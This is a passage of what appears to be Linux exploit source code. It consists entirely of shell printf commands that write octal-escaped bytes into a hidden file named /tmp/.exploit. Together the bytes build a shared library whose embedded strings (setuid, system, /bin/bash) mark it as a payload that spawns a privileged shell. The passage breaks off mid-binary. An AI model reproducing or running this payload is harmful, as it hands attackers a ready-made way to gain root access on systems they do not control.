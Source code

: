     printf "\127\000\000\000\264\025\000\000\000\000\000\000\020\000\361\377" >>/tmp/.exploit
    printf "\136\000\000\000\264\025\000\000\000\000\000\000\020\000\361\377" >>/tmp/.exploit
    printf "\021\000\000\000\034\004\000\000\062\000\000\000\022\000\012\000" >>/tmp/.exploit
    printf "\020\000\000\000\310\002\000\000\000\000\000\000\022\000\010\000" >>/tmp/.exploit
    printf "\026\000\000\000\204\004\000\000\000\000\000\000\022\000\013\000" >>/tmp/.exploit
    printf "\000\137\137\147\155\157\156\137\163\164\141\162\164\137\137\000" >>/tmp/.exploit
    printf "\137\151\156\151\164\000\137\146\151\156\151\000\137\137\143\170" >>/tmp/.exploit
    printf "\141\137\146\151\156\141\154\151\172\145\000\137\112\166\137\122" >>/tmp/.exploit
    printf "\145\147\151\163\164\145\162\103\154\141\163\163\145\163\000\163" >>/tmp/.exploit
    printf "\145\164\165\151\144\000\163\171\163\164\145\155\000\154\151\142" >>/tmp/.exploit
    printf "\143\056\163\157\056\066\000\137\145\144\141\164\141\000\137\137" >>/tmp/.exploit
    printf "\142\163\163\137\163\164\141\162\164\000\137\145\156\144\000\107" >>/tmp/.exploit
    printf "\114\111\102\103\137\062\056\061\056\063\000\107\114\111\102\103" >>/tmp/.exploit
    printf "\137\062\056\060\000\000\000\000\000\000\000\000\002\000\002\000" >>/tmp/.exploit
    printf "\003\000\001\000\001\000\001\000\001\000\001\000\001\000\000\000" >>/tmp/.exploit
    printf "\001\000\002\000\115\000\000\000\020\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\163\037\151\011\000\000\003\000\157\000\000\000\020\000\000\000" >>/tmp/.exploit
    printf "\020\151\151\015\000\000\002\000\173\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\310\024\000\000\010\000\000\000\264\024\000\000\001\011\000\000" >>/tmp/.exploit
    printf "\214\025\000\000\006\001\000\000\220\025\000\000\006\002\000\000" >>/tmp/.exploit
    printf "\224\025\000\000\006\005\000\000\244\025\000\000\007\001\000\000" >>/tmp/.exploit
    printf "\250\025\000\000\007\003\000\000\254\025\000\000\007\004\000\000" >>/tmp/.exploit
    printf "\260\025\000\000\007\005\000\000\125\211\345\203\354\010\350\135" >>/tmp/.exploit
    printf "\000\000\000\350\010\001\000\000\350\163\001\000\000\311\303\000" >>/tmp/.exploit
    printf "\377\263\004\000\000\000\377\243\010\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\377\243\014\000\000\000\150\000\000\000\000\351\340\377\377\377" >>/tmp/.exploit
    printf "\377\243\020\000\000\000\150\010\000\000\000\351\320\377\377\377" >>/tmp/.exploit
    printf "\377\243\024\000\000\000\150\020\000\000\000\351\300\377\377\377" >>/tmp/.exploit
    printf "\377\243\030\000\000\000\150\030\000\000\000\351\260\377\377\377" >>/tmp/.exploit
    printf "\125\211\345\123\203\354\004\350\000\000\000\000\133\201\303\134" >>/tmp/.exploit
    printf "\022\000\000\213\223\364\377\377\377\205\322\164\005\350\236\377" >>/tmp/.exploit
    printf "\377\377\130\133\311\303\220\220\220\220\220\220\220\220\220\220" >>/tmp/.exploit
    printf "\125\211\345\126\123\350\255\000\000\000\201\303\056\022\000\000" >>/tmp/.exploit
    printf "\203\354\020\200\273\040\000\000\000\000\165\127\213\203\374\377" >>/tmp/.exploit
    printf "\377\377\205\300\164\016\215\203\060\377\377\377\211\004\044\350" >>/tmp/.exploit
    printf "\214\377\377\377\215\203\050\377\377\377\215\223\044\377\377\377" >>/tmp/.exploit
    printf "\051\320\301\370\002\215\160\377\213\203\034\000\000\000\071\306" >>/tmp/.exploit
    printf "\166\032\203\300\001\211\203\034\000\000\000\377\224\203\044\377" >>/tmp/.exploit
    printf "\377\377\213\203\034\000\000\000\071\306\167\346\306\203\040\000" >>/tmp/.exploit
    printf "\000\000\001\203\304\020\133\136\135\303\215\266\000\000\000\000" >>/tmp/.exploit
    printf "\125\211\345\123\350\056\000\000\000\201\303\257\021\000\000\203" >>/tmp/.exploit
    printf "\354\004\213\223\054\377\377\377\205\322\164\025\213\223\370\377" >>/tmp/.exploit
    printf "\377\377\205\322\164\013\215\203\054\377\377\377\211\004\044\377" >>/tmp/.exploit
    printf "\322\203\304\004\133\135\303\213\034\044\303\220\125\211\345\123" >>/tmp/.exploit
    printf "\203\354\004\350\357\377\377\377\201\303\160\021\000\000\307\004" >>/tmp/.exploit
    printf "\044\000\000\000\000\350\326\376\377\377\215\203\010\357\377\377" >>/tmp/.exploit
    printf "\211\004\044\350\270\376\377\377\203\304\004\133\135\303\220\220" >>/tmp/.exploit
    printf "\125\211\345\126\123\350\275\377\377\377\201\303\076\021\000\000" >>/tmp/.exploit
    printf "\215\203\040\377\377\377\215\160\374\213\100\374\203\370\377\164" >>/tmp/.exploit
    printf "\014\203\356\004\377\320\213\006\203\370\377\165\364\133\136\135" >>/tmp/.exploit
    printf "\303\220\220\220\125\211\345\123\203\354\004\350\000\000\000\000" >>/tmp/.exploit
    printf "\133\201\303\010\021\000\000\350\304\376\377\377\131\133\311\303" >>/tmp/.exploit
    printf "\057\142\151\156\057\142\141\163\150\000\000\000\000\000\000\000" >>/tmp/.exploit
    printf "\377\377\377\377\000\000\000\000\000\000\000\000\377\377\377\377" >>/tmp/.exploit
    printf "\000\000\000\000\000\000\000\000\310\024\000\000\001\000\000\000" >>/tmp/.exploit
    printf "\115\000\000\000\014\000\000\000\310\002\000\000\015\000\000\000" >>/tmp/.exploit
    printf "\204\004\000\000\365\376\377\157\264\000\000\000\005\000\000\000" >>/tmp/.exploit
    printf "\260\001\000\000\006\000\000\000\360\000\000\000\012\000\000\000" >>/tmp/.exploit
    printf "\205\000\000\000\013\000\000\000\020\000\000\000\003\000\000\000" >>/tmp/.exploit
    printf "\230\025\000\000\002\000\000\000\040\000\000\000\024\000\000\000" >>/tmp/.exploit
    printf "\021\000\000\000\027\000\000\000\250\002\000\000\021\000\000\000" >>/tmp/.exploit
    printf "\200\002\000\000\022\000\000\000\050\000\000\000\023\000\000\000" >>/tmp/.exploit
    printf "\010\000\000\000\376\377\377\157\120\002\000\000\377\377\377\157" >>/tmp/.exploit